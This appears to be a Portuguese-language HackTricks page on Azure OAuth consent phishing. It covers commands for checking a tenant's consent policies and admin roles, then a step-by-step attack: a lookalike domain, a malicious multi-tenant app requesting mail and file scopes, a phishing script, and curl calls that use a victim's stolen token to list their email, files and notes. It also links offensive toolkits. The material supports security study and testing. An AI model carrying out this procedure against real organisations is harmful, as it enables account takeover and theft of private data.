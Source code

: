 # Az - OAuth Apps Phishing

{{#include ../../../banners/hacktricks-training.md}}

## Phishing de Aplicativos OAuth

**Aplicações Azure** são configuradas com as permissões que poderão usar quando um usuário consente a aplicação (como enumerar o diretório, acessar arquivos ou realizar outras ações). Note que a aplicação estará agindo em nome do usuário, então mesmo que o aplicativo possa estar pedindo permissões de administração, se o **usuário que consente não tiver essa permissão**, o aplicativo **não poderá realizar ações administrativas**.

### Permissões de consentimento do aplicativo

Por padrão, qualquer **usuário pode dar consentimento a aplicativos**, embora isso possa ser configurado para que os usuários só possam consentir a **aplicativos de editores verificados para permissões selecionadas** ou até mesmo **remover a permissão** para que os usuários consintam a aplicações.

<figure><img src="../../../images/image.png" alt=""><figcaption></figcaption></figure>

Se os usuários não puderem consentir, **administradores** como `GA`, `Application Administrator` ou `Cloud Application` `Administrator` podem **consentir as aplicações** que os usuários poderão usar.

Além disso, se os usuários puderem consentir apenas a aplicativos que utilizam permissões de **baixo risco**, essas permissões são por padrão **openid**, **profile**, **email**, **User.Read** e **offline_access**, embora seja possível **adicionar mais** a essa lista.

E se eles puderem consentir a todos os aplicativos, poderão consentir a todos os aplicativos.

### 2 Tipos de ataques

- **Não autenticado**: A partir de uma conta externa, crie uma aplicação com as **permissões de baixo risco** `User.Read` e `User.ReadBasic.All`, por exemplo, phishing de um usuário, e você poderá acessar informações do diretório.
- Isso requer que o usuário phishing esteja **capaz de aceitar aplicativos OAuth de locatário externo**.
- Se o usuário phishing for um administrador que pode **consentir qualquer aplicativo com quaisquer permissões**, a aplicação também poderá **solicitar permissões privilegiadas**.
- **Autenticado**: Tendo comprometido um principal com privilégios suficientes, **crie uma aplicação dentro da conta** e **phishing** de algum **usuário privilegiado** que pode aceitar permissões OAuth privilegiadas.
- Nesse caso, você já pode acessar as informações do diretório, então a permissão `User.ReadBasic.All` não é mais interessante.
- Você provavelmente está interessado em **permissões que requerem um administrador para concedê-las**, porque um usuário comum não pode dar permissões a aplicativos OAuth, por isso você precisa **phishing apenas esses usuários** (mais sobre quais papéis/permissões concedem esse privilégio mais adiante).

### Usuários podem consentir

Note que você precisa executar este comando a partir de um usuário dentro do locatário, você não pode encontrar essa configuração de um locatário externo. O seguinte cli pode ajudá-lo a entender as permissões dos usuários:
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/authorizationPolicy"
```
- Os usuários podem consentir a todos os aplicativos: Se dentro de **`permissionGrantPoliciesAssigned`** você encontrar: `ManagePermissionGrantsForSelf.microsoft-user-default-legacy` então os usuários podem aceitar todos os aplicativos.
- Os usuários podem consentir a aplicativos de editores verificados ou da sua organização, mas apenas para permissões que você selecionar: Se dentro de **`permissionGrantPoliciesAssigned`** você encontrar: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team` então os usuários podem aceitar todos os aplicativos.
- **Desativar o consentimento do usuário**: Se dentro de **`permissionGrantPoliciesAssigned`** você só encontrar: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-chat` e `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team` então os usuários não podem consentir nada.

É possível encontrar o significado de cada uma das políticas comentadas em:
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/permissionGrantPolicies"
```
### **Administradores de Aplicativos**

Verifique os usuários que são considerados administradores de aplicativos (podem aceitar novas aplicações):
```bash
# Get list of roles
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles"

# Get Global Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1b2256f9-46c1-4fc2-a125-5b2f51bb43b7/members"

# Get Application Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1e92c3b7-2363-4826-93a6-7f7a5b53e7f9/members"

# Get Cloud Applications Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/0d601d27-7b9c-476f-8134-8e7cd6744f02/members"
```
## **Visão Geral do Fluxo de Ataque**

O ataque envolve várias etapas direcionadas a uma empresa genérica. Veja como pode se desenrolar:

1. **Registro de Domínio e Hospedagem de Aplicação**: O atacante registra um domínio que se assemelha a um site confiável, por exemplo, "safedomainlogin.com". Sob este domínio, um subdomínio é criado (por exemplo, "companyname.safedomainlogin.com") para hospedar uma aplicação projetada para capturar códigos de autorização e solicitar tokens de acesso.
2. **Registro da Aplicação no Azure AD**: O atacante então registra uma Aplicação Multi-Tenant em seu Tenant do Azure AD, nomeando-a após a empresa alvo para parecer legítima. Eles configuram a URL de Redirecionamento da aplicação para apontar para o subdomínio que hospeda a aplicação maliciosa.
3. **Configuração de Permissões**: O atacante configura a aplicação com várias permissões de API (por exemplo, `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`). Essas permissões, uma vez concedidas pelo usuário, permitem que o atacante extraia informações sensíveis em nome do usuário.
4. **Distribuição de Links Maliciosos**: O atacante cria um link contendo o id do cliente da aplicação maliciosa e o compartilha com usuários-alvo, enganando-os para conceder consentimento.

## Exemplo de Ataque

1. Registre uma **nova aplicação**. Pode ser apenas para o diretório atual se você estiver usando um usuário do diretório atacado ou para qualquer diretório se este for um ataque externo (como na imagem a seguir).
1. Também defina a **URI de redirecionamento** para a URL esperada onde você deseja receber o código para obter tokens (`http://localhost:8000/callback` por padrão).

<figure><img src="../../../images/image (1).png" alt=""><figcaption></figcaption></figure>

2. Em seguida, crie um segredo da aplicação:

<figure><img src="../../../images/image (2).png" alt=""><figcaption></figcaption></figure>

3. Selecione permissões de API (por exemplo, `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`)

<figure><img src="../../../images/image (3).png" alt=""><figcaption></figcaption></figure>

4. **Execute a página da web (**[**azure_oauth_phishing_example**](https://github.com/carlospolop/azure_oauth_phishing_example)**)** que solicita as permissões:
```bash
# From https://github.com/carlospolop/azure_oauth_phishing_example
python3 azure_oauth_phishing_example.py --client-secret <client-secret> --client-id <client-id> --scopes "email,Files.ReadWrite.All,Mail.Read,Notes.Read.All,offline_access,openid,profile,User.Read"
```
5. **Envie a URL para a vítima**  
1. Neste caso `http://localhost:8000`  
6. **As vítimas** precisam **aceitar o aviso:**

<figure><img src="../../../images/image (4).png" alt=""><figcaption></figcaption></figure>

7. Use o **token de acesso para acessar as permissões solicitadas**:
```bash
export ACCESS_TOKEN=<ACCESS_TOKEN>

# List drive files
curl -X GET \
https://graph.microsoft.com/v1.0/me/drive/root/children \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List eails
curl -X GET \
https://graph.microsoft.com/v1.0/me/messages \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List notes
curl -X GET \
https://graph.microsoft.com/v1.0/me/onenote/notebooks \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"
```
## Outras Ferramentas

- [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)**:** Confira [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) para aprender como configurá-lo.
- [**O365-Attack-Toolkit**](https://github.com/mdsecactivebreach/o365-attack-toolkit)

## Pós-Exploração

### Phishing Pós-Exploração

Dependendo das permissões solicitadas, você pode ser capaz de **acessar diferentes dados do locatário** (listar usuários, grupos... ou até mesmo modificar configurações) e **informações do usuário** (arquivos, notas, e-mails...). Então, você pode usar essas permissões para realizar essas ações.

### Pós Exploração de Aplicações

Verifique as seções de Aplicações e Principal de Serviço da página:

{{#ref}}
../az-privilege-escalation/az-entraid-privesc/
{{#endref}}

## Referências

- [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
- [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

{{#include ../../../banners/hacktricks-training.md}}
